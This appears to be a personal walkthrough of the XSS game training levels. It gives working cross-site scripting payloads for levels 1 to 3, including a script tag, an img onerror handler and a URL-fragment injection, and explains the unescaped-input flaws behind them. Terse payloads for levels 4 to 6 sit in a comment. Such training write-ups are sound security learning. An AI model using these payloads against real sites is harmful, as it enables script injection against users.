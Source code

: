 ```yaml
---
title: XSS game
published: true 
tags: XSS
---
```


# Level 1:
I tested following payload:
```html
<script>alert(1)</script>
```
and it worked because user input is directly included in the page without any escaping.

# Level 2
In that case simple
```html
<script>alert(1)</script>
```
don't work, because user data is in the blockquote tag. I try with this:
```html
<img src='as' onerror=alert(1)>
```
and that worked.

# Level 3
Have some fun with app and obserwe url. If you do it carefully you will notice the url part after # is change value dynamicaly, if you select 'Image 1' there would be 1, if 'Image 2' then 2 and etc.. Let's check source:

```html
<div class="tab active" id="tab1" onclick="chooseTab('1')">Image 1</div>
```

So clicking into those 'buttons' fire up chooseTab function. Let's check it out:

```js
    function chooseTab(num) {
    // Dynamically load the appropriate image.
    var html = "Image " + parseInt(num) + "<br>";
    html += "<img src='/static/level3/cloud" + num + ".jpg' />";
    $('#tabContent').html(html);

    window.location.hash = num;

    // Select the current tab
    var tabs = document.querySelectorAll('.tab');
    for (var i = 0; i < tabs.length; i++) {
        if (tabs[i].id == "tab" + parseInt(num)) {
        tabs[i].className = "tab active";
        } else {
        tabs[i].className = "tab";
        }
    }

    // Tell parent we've changed the tab
    top.postMessage(self.location.toString(), "*");
    }
```

This part of chooseTab is dangerous:
```js
    html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```
It is dangerous because user controllable data are directly embedding into html code without proper encoding. So to exploit XSS you must create valid img tag.

This part of code is interesting too:
```js 
    window.onload = function() { 
    chooseTab(unescape(self.location.hash.substr(1)) || "1");
    }
```
It tell us that crossTab function is fired up on page loading.

My solution do not require user interaction. Victim must only click on prepared link. Function chooseTab is fired up on page loading, value of parameter is part of url after # sign:
```
https://xss-game.appspot.com/level3/frame#<choseTam param value>
```
So now let's create valid img tag:
```html
html += "<img src='/static/level3/cloud" + 1.jpg' onload=alert(1)>< + ".jpg' />";
```

Payload:
```
https://xss-game.appspot.com/level3/frame#1.jpg' onload=alert(1)><
```

If someone go into this link an alert box would be displayed, because chooseTab function create following img tag:

```html
<img src="/static/level3/cloud1.jpg" onload="alert(1)">
```


<!-- # Level 4
```
%31%27%29%3b%61%6c%65%72%74%28%27%31
```

# Level 5
=javascript:alert(1)

# Level 6
data:text/plain,alert('xss') -->